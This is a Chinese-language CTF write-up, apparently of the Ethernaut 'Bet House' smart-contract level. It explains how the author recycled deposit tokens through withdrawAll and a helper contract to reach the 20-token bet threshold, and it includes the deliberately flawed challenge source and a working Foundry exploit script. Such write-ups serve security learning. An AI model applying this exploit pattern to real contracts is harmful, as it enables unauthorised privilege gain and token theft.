




## Bet House

### 目标：

刚开始时存在 5 个 Deposit Tokens，目标是成为 bettor。

### 思路：

观察题目源码，成为 bettor 只有调用 `makeBet` 函数一个途径。调用这个函数的条件是调用者的代币余额不少于 20，另一个条件是调用者已经调用 Pool 合约中的 `lockDeposits` 函数。

这道题的关键是使代币余额达到 20。首先需要获取 `Pool`、`poolToken` 和 `depositToken` 的合约地址。

`Pool` 合约地址：



`poolToken` 和 `depositToken` 的合约地址：



因为 `Pool` 合约继承了 `ReentrancyGuard`，所以第 0 个存储槽中存储的是 `ReentrancyGuard` 合约中的状态变量。

然后开始获取代币。观察 `deposit` 函数中的第二个 `if` 条件，转入 `msg.value == 0.001 ether` 即可获取 10 个 wrappedToken，但是由于 `alreadyDeposited` 的限制，只能获取一次。然后利用 ERC20 中的 `approve` 函数进行授权，使 5 个代币可以通过 `transferFrom` 转出。但是刚开始我的代码逻辑都在脚本中，缺少的 5 个代币永远无法获得。

所以我增加了一个中间合约。获取 15 个 `wrappedToken` 后，把代币都转给中间合约。再观察 `withdrawAll` 函数的逻辑，发现这个函数可以把之前存入的 5 个 PDT 退回来。然后再次利用 `deposit` 函数存入 PDT，把新铸造的 wrappedToken 也转到中间合约。这样中间合约就拥有 20 个 `wrappedToken`，再由中间合约调用 `makeBet` 即可。



### 源码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import {Ownable} from "openzeppelin-contracts-08/access/Ownable.sol";
import {ReentrancyGuard} from "openzeppelin-contracts-08/security/ReentrancyGuard.sol";

contract BetHouse {
    address public pool;
    uint256 private constant BET_PRICE = 20;
    mapping(address => bool) private bettors;

    error InsufficientFunds();
    error FundsNotLocked();

    constructor(address pool_) {
        pool = pool_;
    }

    function makeBet(address bettor_) external {
        if (Pool(pool).balanceOf(msg.sender) < BET_PRICE) {
            revert InsufficientFunds();
        }
        if (!Pool(pool).depositsLocked(msg.sender)) revert FundsNotLocked();
        bettors[bettor_] = true;
    }

    function isBettor(address bettor_) external view returns (bool) {
        return bettors[bettor_];
    }
}

contract Pool is ReentrancyGuard {
    address public wrappedToken;
    address public depositToken;

    mapping(address => uint256) private depositedEther;
    mapping(address => uint256) private depositedPDT;
    mapping(address => bool) private depositsLockedMap;
    bool private alreadyDeposited;

    error DepositsAreLocked();
    error InvalidDeposit();
    error AlreadyDeposited();
    error InsufficientAllowance();

    constructor(address wrappedToken_, address depositToken_) {
        wrappedToken = wrappedToken_;
        depositToken = depositToken_;
    }

    /**
     * @dev Provide 10 wrapped tokens for 0.001 ether deposited and
     *      1 wrapped token for 1 pool deposit token (PDT) deposited.
     *  The ether can only be deposited once per account.
     */
    function deposit(uint256 value_) external payable {
        // check if deposits are locked
        if (depositsLockedMap[msg.sender]) revert DepositsAreLocked();

        uint256 _valueToMint;
        // check to deposit ether
        if (msg.value == 0.001 ether) {
            if (alreadyDeposited) revert AlreadyDeposited();
            depositedEther[msg.sender] += msg.value;
            alreadyDeposited = true;
            _valueToMint += 10;
        }
        // check to deposit PDT
        if (value_ > 0) {
            if (PoolToken(depositToken).allowance(msg.sender, address(this)) < value_) revert InsufficientAllowance();
            depositedPDT[msg.sender] += value_;
            PoolToken(depositToken).transferFrom(msg.sender, address(this), value_);
            _valueToMint += value_;
        }
        if (_valueToMint == 0) revert InvalidDeposit();
        PoolToken(wrappedToken).mint(msg.sender, _valueToMint);
    }

    function withdrawAll() external nonReentrant {
        // send the PDT to the user
        uint256 _depositedValue = depositedPDT[msg.sender];
        if (_depositedValue > 0) {
            depositedPDT[msg.sender] = 0;
            PoolToken(depositToken).transfer(msg.sender, _depositedValue);
        }

        // send the ether to the user
        _depositedValue = depositedEther[msg.sender];
        if (_depositedValue > 0) {
            depositedEther[msg.sender] = 0;
            payable(msg.sender).call{value: _depositedValue}("");
        }

        PoolToken(wrappedToken).burn(msg.sender, balanceOf(msg.sender));
    }

    function lockDeposits() external {
        depositsLockedMap[msg.sender] = true;
    }

    function depositsLocked(address account_) external view returns (bool) {
        return depositsLockedMap[account_];
    }

    function balanceOf(address account_) public view returns (uint256) {
        return PoolToken(wrappedToken).balanceOf(account_);
    }
}

contract PoolToken is ERC20, Ownable {
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) Ownable() {}

    function mint(address account, uint256 amount) external onlyOwner {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external onlyOwner {
        _burn(account, amount);
    }
}
```

### POC：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface Pool {
    function deposit(uint256 value_) external payable;
    function lockDeposits() external;
    function withdrawAll() external;
    function balanceOf(address account_) external view returns (uint256);
}

interface BetHouse {
    function makeBet(address bettor_) external;
    function isBettor(address bettor_) external view returns (bool);
}

interface PoolToken {
    function mint(address account, uint256 amount) external;
    function burn(address account, uint256 amount) external;
}

contract Middle {
    Pool pool = Pool(0x6D96448744aF9a7767a849f5Cd0b637f32D40438);
    BetHouse betHouse = BetHouse(0x301D000B9fB8344365f0DF6ab09D096Ed90783b5);

    function attack(address player) external {
        pool.lockDeposits();
        betHouse.makeBet(player);
    }
}

contract Attack is Script {
    Pool pool = Pool(0x6D96448744aF9a7767a849f5Cd0b637f32D40438);
    BetHouse betHouse = BetHouse(0x301D000B9fB8344365f0DF6ab09D096Ed90783b5);
    IERC20 poolToken = IERC20(0x6806e37Df9d036009e9D51F13442C3D8C585314B);
    IERC20 depositToken = IERC20(0x131548554CFa9C66bAC00cd2b02fF2D4ab7221CA);

    function run() external {
        vm.startBroadcast();

        Middle middle = new Middle();

        depositToken.approve(address(pool), 10);

        pool.deposit{value: 0.001 ether}(5);
        poolToken.transfer(address(middle), poolToken.balanceOf(msg.sender));
        pool.withdrawAll();

        pool.deposit(5);
        poolToken.transfer(address(middle), poolToken.balanceOf(msg.sender));
        pool.withdrawAll();

        middle.attack(msg.sender);

        vm.stopBroadcast();
    }
}
```


